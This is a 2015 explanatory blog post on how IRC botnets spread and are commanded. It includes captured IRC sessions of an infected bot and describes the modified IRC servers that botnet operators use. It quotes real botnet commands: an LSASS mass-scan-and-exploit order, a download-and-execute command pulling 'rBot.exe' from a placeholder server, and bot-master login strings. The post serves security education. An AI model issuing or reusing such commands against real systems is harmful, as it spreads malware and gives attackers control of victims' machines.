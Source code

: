 ```yaml
---
layout: post
title:  "How Bots and Botnets work"
date:   2015-01-30 10:21:50
categories: anatomy
---
```


This section will in detail explain how bots spread and how they are controlled by their masters.

The term `botnet` is widely used when several IRC bots have been linked and may possibly set channel modes on other bots and users while keeping IRC channels free from unwanted users. 
This is where the term is originally from, since the first illegal botnets were similar to legal botnets.

Botnets sometimes compromise computers whose security defenses have been breached and control conceded to a third party. Each such compromised device, known as a "bot", is created when a computer is penetrated by software from a malware (malicious software) distribution. However, it could also be someone (or a spider) that hacks into a computer. The controller of a botnet is able to direct the activities of these compromised computers through communication channels formed by standards-based network protocols such as IRC, Hypertext Transfer Protocol (HTTP), etc..[1]

*Reference* ["Bots &; Botnet: An Overview"](http://www.sans.org/reading-room/whitepapers/malicious/bots-botnet-overview-1299)[1]

After successful exploitation, a bot uses Trivial File Transfer Protocol (TFTP), File Transfer Protocol (FTP), HyperText Transfer Protocol (HTTP), or CSend (an IRC extension to send files to other users, comparable to DCC) to transfer itself to the compromised host. The binary is started, and tries to connect to the hard-coded master IRC server. Often a dynamic DNS name is provided rather than a hard coded IP address, so the bot can be easily relocated. Some bots even remove themselves if the given master server is localhost or in a private subnet, since this indicates an unusual situations. Using a special crafted nickname like EU\|743634 or [UrX]-98439854 the bot tries to join the master's channel, sometimes using a password to keep strangers out of the channel. A typical communication that can be observed after a successful infection looks like:

{% highlight irc %}
<- :irc1.XXXXXX.XXX NOTICE AUTH :*** Looking up your hostname...
<- :irc1.XXXXXX.XXX NOTICE AUTH :*** Found your hostname
-> PASS secretserverpass
-> NICK [urX]-700159
-> USER mltfvt 0 0 :mltfvt
<- :irc1.XXXXXX.XXX NOTICE [urX]-700159 :*** If you are having problems connecting due to ping timeouts, please type /quote pong ED322722 or /raw pong ED322722 now.
<- PING :ED322722
-> PONG :ED322722
<- :irc1.XXXXXX.XXX 001 [urX]-700159 :Welcome to the irc1.XXXXXX.XXX IRC Network [urX]-700159!mltfvt@nicetry
<- :irc1.XXXXXX.XXX 002 [urX]-700159 :Your host is irc1.XXXXXX.XXX, running version Unreal3.2-beta19
<- :irc1.XXXXXX.XXX 003 [urX]-700159 :This server was created Sun Feb  8 18:58:31 2004
<- :irc1.XXXXXX.XXX 004 [urX]-700159 irc1.XXXXXX.XXX Unreal3.2-beta19 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeKVfMGCuzN
{% endhighlight %}

Afterwards, the server accepts the bot as a client and sends him RPL_ISUPPORT, RPL_MOTDSTART, RPL_MOTD, RPL_ENDOFMOTD or ERR_NOMOTD. Replies starting with RPL_ contain information for the client, for example RPL_ISUPPORT tells the client which features the server understands and RPL_MOTD indicates the Message Of The Day (MOTD). In contrast to this, ERR_NOMOTD is an error message if no MOTD is available. 

On RPL_ENDOFMOTD or ERR_NOMOTD, the bot will try to join his master's channel with the provided password:

{% highlight irc %}
-> JOIN #botnet channelpassword
-> MODE [urX]-700159 +x
{% endhighlight %}

The bot receives the topic of the channel and interprets it as a command:
{% highlight irc %}
<- :irc1.XXXXXX.XXX 332 [urX]-700159 #botnet :.advscan lsass 200 5 0 -r -s
<- :[urX]-700159!mltfvt@nicetry JOIN :#botnet
<- :irc1.XXXXXX.XXX MODE #botnet +smntuk channelpassword
{% endhighlight %}
Most botnets use a topic command like:

**1.**	`".advscan lsass 200 5 0 -r -s"`

**2.**	`".http.update http://<server>/~mugenxu/rBot.exe c:\msy32awds.exe 1"`

The first topic tells the bot to spread further with the help of the LSASS vulnerability[2]. 200 concurrent threads should scan with a delay of 5 seconds for an unlimited time (parameter 0). The scans should be random (parameter -r) and silent (parameter -s), thus avoiding too much traffic due to status reports. In contrast to this, the second example of a possible topic instructs the bot to download a binary from the web and execute it (parameter 1). And if the topic does not contain any instructions for the bot, then it does nothing but idling in the channel, awaiting commands. That is fundamental for most current bots: They do not spread if they are not told to spread in their master's channel.
Upon successful exploitation the bot will message the owner about it, if it has been advised to do so.

*Reference* [LSASS vulnerability](https://technet.microsoft.com/library/security/ms04-011)[2]

{% highlight irc %}
-> PRIVMSG #botnet :[lsass]: Exploiting IP: 200.124.175.XXX
-> PRIVMSG #botnet :[TFTP]: File transfer started to IP: 200.124.175.XXX (C:\WINDOWS\System32\NAV.exe).
{% endhighlight %}

Then the IRC server (also called IRC daemon, abbreviated IRCd) will provide the channels userlist. But most botnet owners have modified the IRCd to just send the channel operators to save traffic and disguise the number of bots in the channel.

{% highlight irc %}
<- :irc1.XXXXXX.XXX 353 [urX]-700159 @ #botnet :@JAH
<- :irc1.XXXXXX.XXX 366 [urX]-700159 #botnet :End of /NAMES list.
<- :irc1.XXXXXX.XXX NOTICE [urX]-700159 :BOTMOTD File not found
<- :[urX]-700159 MODE [urX]-700159 :+x
{% endhighlight %}

The controller of a botnet has to authenticate himself to take control over the bots. This authentication is done with the help of a command prefix and the "auth" command. The command prefix is used to login the master on the bots and afterwards he has to authenticate himself. For example,

{% highlight irc %}
.login leet0
.la plmp -s
{% endhighlight %}


are commands used on different bots to approve the controller. Again, the "-s" switch in the last example tells the bots to be silent when authenticating their master. Else they reply something like

{% highlight irc %}
[MAIN]: Password accepted.
[r[X]-Sh0[x]]: .:( Password Acepted ):. .
{% endhighlight %}

which can be a lot of traffic if you have 10,000 bots on your network. Once an attacker is authenticated, they can do whatever they want with the bots: Searching for sensitive information on all compromised machines and DCC-sending these files to another machine, DDoS-ing individuals or organizations, or enabling a keylogger and looking for PayPal or eBay account information. These are just a few possible commands, other options have been presented in the previous section. The IRC server that is used to connect all bots is in most cases a compromised box. This is probably because an attacker would not receive operator-rights on a normal chat network and thus has to set-up their own IRC server which offers more flexibility.

Two different IRC servers software implementation are commonly used to run a botnet: Unreal IRCd and ConferenceRoom:

* **Unreal IRCd[3]**

	It's cross-platform and can thus be used to easily link machines running Windows and Linux. The IRC server software is stripped down and modified to fit the botnet owner’s needs.
	Common modifications we have noticed are stripping "JOIN", "PART" and "QUIT" messages on channels to avoid unnecessary traffic. In addition, the messages "LUSERS" (information about number of connected clients) and "RPL_ISUPPORT" are removed to hide identity and botnet size. 
	Size comes in great value given that botnet with over 80k+ bots are used by cyber criminals for "professional" attacks probably being to most profitable of uses for botnets, also the riskier. These kind of networks can cause severe damage since they offer a lot of bandwidth and many targets for identity theft.
	
	*Reference*: [Unreal IRCd](http://www.unrealircd.com/)[3]

* **ConferenceRoom[4]**

	It's a commercial IRCd solution, but people who run botnets typically use a cracked version. ConferenceRoom offers the possibility of several thousand simultaneous connections, with nickname and channel registration, buddy lists and server to server linking.
	Since the people who run botnets often share the same motives (DDoS attacks or other crimes) every bot family has its own set of commands to implement the same goals. Agobot is really nice here: Just grep the source for RegisterCommand and get the whole command-list with a complete description of all features. Due to the lack of clean design, the whole SDBot family is harder to analyse. Often the command set is changed in various forks of the same bot and thus an automated analysis of the implemented commands is nearly impossible. 

	*Reference*: [ConferenceRoom](http://www.webmaster.com/) [4]
	
Botnets are increasingly rented out by cyber criminals as commodities for a variety of purposes.[5]

*Reference* ["Novice cyberciminals offer commercial access to five mini botnets"](http://www.webroot.com/blog/2013/10/11/novice-cyberciminals-offer-commercial-access-5-mini-botnets/)[2]